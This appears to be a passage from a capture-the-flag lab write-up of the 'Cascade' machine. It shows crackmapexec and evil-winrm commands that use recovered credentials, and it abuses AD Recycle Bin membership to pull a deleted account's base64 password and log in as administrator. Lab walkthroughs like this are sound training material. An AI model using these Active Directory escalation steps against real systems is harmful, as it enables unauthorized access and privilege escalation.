 ```bash
crackmapexec winrm 10.10.10.182 -u arksvc -p "w3lc0meFr31nd"

SMB         10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
HTTP        10.10.10.182    5985   CASC-DC1         [*] http://10.10.10.182:5985/wsman
WINRM       10.10.10.182    5985   CASC-DC1         [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
```

Signed in with `evil-winrm`:

```bash
evil-winrm -i 10.10.10.182 -u arksvc -p "w3lc0meFr31nd"
```

Checking details about the user shows that they belong to a group titled `AD Recycle Bin`. Membership in this group allows for the reading of deleted Active Directory objects, which can [reveal sensitive information](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges):

```bash
*Evil-WinRM* PS C:\Users\arksvc> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *

.......
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
cascadeLegacyPwd                : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
.......
```

I found a deleted object titled `TempAdmin` with a base64 encoded password `YmFDVDNyMWFOMDBkbGVz`. Can decode this password and using it with the administrator account appears to work:

```bash
evil-winrm -i 10.10.10.182 -u administrator -p "baCT3r1aN00dles"

*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        6/15/2024   1:04 PM             34 root.txt
```



















